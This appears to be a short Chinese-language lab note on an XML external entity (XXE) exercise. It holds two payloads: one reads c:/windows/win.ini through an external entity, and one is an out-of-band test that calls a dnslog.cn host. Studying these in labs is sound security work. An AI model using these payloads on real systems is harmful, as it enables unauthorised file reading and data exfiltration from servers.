 抓包实验

<img src="图片\Snipaste_2023-02-05_19-58-45.png" alt="Snipaste_2023-02-05_19-58-45" style="zoom:80%;" />

1.1  读文件

```
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///c:/windows/win.ini">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```

1.2 带外测试  

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://nzohgp.dnslog.cn">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>
```

<img src="图片\Snipaste_2023-02-05_20-05-16.png" alt="Snipaste_2023-02-05_20-05-16" style="zoom:80%;" />
